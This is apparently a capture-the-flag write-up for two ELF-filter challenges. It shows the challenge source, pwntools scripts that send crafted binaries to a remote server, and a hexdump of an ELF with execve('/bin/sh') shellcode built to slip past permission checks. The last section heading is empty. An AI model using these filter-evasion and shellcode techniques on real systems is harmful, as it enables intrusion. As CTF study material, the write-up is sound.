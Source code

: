 
1. Extremely Lame Filters 1
2. Extremely Lame Filters 2
3. squ1rrel-logon

If you want to get binary or bytes of ELF probs, DM me(Discord : guardianch)

--- 
# Extremely Lame Filters 1

`elf.py` analyze input ELF file.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!!"))
elf = parse(data)

for section in elf.sections:
    if section.sh_flags & SectionFlags.EXECINSTR:
        raise ValidationException("!!")

elf.run()
```

`fairy.py` check sections flag of input file. If there is EXECINSTR flag in `sh_flags`, program turns off. However, `sh_flags` doesn't affect execution of the program, so just remove every EXECINSTR flag. funny trick lol. If section's flag is `06`, change it to `02`. After manipulating, send it to server.

# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5002')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex_nofilter', 'rb').read())
p.sendlineafter(b'!!', dt)
p.interactive()
```

---
# Extremely Lame Filters 2

`elf.py` is same as last prob.

```python
#!/usr/bin/python3

from elf import *
from base64 import b64decode

data = b64decode(input("I'm a little fairy and I will trust any ELF that comes by!! (almost any)"))
elf = parse(data)

if elf.header.e_type != constants.ET_EXEC:
    print("!!")
    exit(1)

for segment in elf.segments:
    if segment.p_flags & SegmentFlags.X:
        content = elf.content(segment)
        for byte in content:
            if byte != 0:
                print(">:(")
                exit(1)

elf.run()
```

`e_type` should be `ET_EXEC`. It means elf must not have any linking. It is resolved by write shellcode and compile it. Second, it check segment's `p_flags`. `p_flags` affect program execution, so we can't use method used to solve `Extremely Lame Filters 1`. We need to know new trick haha.
First, load the bytes with RW permission, and load same position with RWX permission, but very small length. In this case, because the program data is allocated in units of one page, the permission of that page changes to RWX. However, it check only a little bytes. It's easy to say, but there's actually more to care about.

```
00000000: 7f45 4c46 0201 0103 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 e800 0100 0000 0000  ..>.............
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 4000 3800 0400 4000 0000 0000  ....@.8...@.....
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0100 0000 0600 0000 0800 0000 0000 0000  ................
00000080: 0800 0100 0000 0000 0800 0100 0000 0000  ................
00000090: f500 0000 0000 0000 f500 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0100 0000 0700 0000  ................
000000b0: 0800 0000 0000 0000 0800 0100 0000 0000  ................
000000c0: 0800 0100 0000 0000 0800 0000 0000 0000  ................
000000d0: 0800 0000 0000 0000 0002 0000 0000 0000  ................
000000e0: 2f62 696e 2f73 6800 bf01 0102 0181 f7e1  /bin/sh.........
000000f0: 0103 0131 d231 f66a 3b58 0f05            ...1.1.j;X..
```

```
Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  <unknown>: 464 0x0000000000000000 0x00000001003e0002 0x00000000000100e8
                 0x0000000000000000 0x0000000000000000   W     0x38004000000000
  <unknown>: 400 0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000         0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x00000000000000f5 0x00000000000000f5  RW     0x0
  LOAD           0x0000000000000008 0x0000000000010008 0x0000000000010008
                 0x0000000000000008 0x0000000000000008  RWE    0x200
```

This is my binary. I set `Number of program headers` to 4, and `Start of program headers` to 0. Therefore program headers 1, 2 is abnormal. Program header 3 which has RW permission load bytes located in 0x8 to 0xfb(end of file), and Set `VirtualAddress` to 0x10008. Program header 4 which has RWX permission load only 8 bytes into the same position. Since bytes located in 0x08 to 0x0f is `\x00`, it can pass the check, and change permission to RWX. my shellcode starts at 0xe8, so set `Entry point address` to `0x100e8`. Now it works!
# exploit

```python
from pwn import *
import base64

p = remote('20.84.72.194', '5003')
#p = process(['python3', 'fairy.py'])

dt = base64.b64encode(open('./ex4', 'rb').read())
p.sendlineafter(b')', dt)
p.interactive()
```

---
# squ1rrel-logon

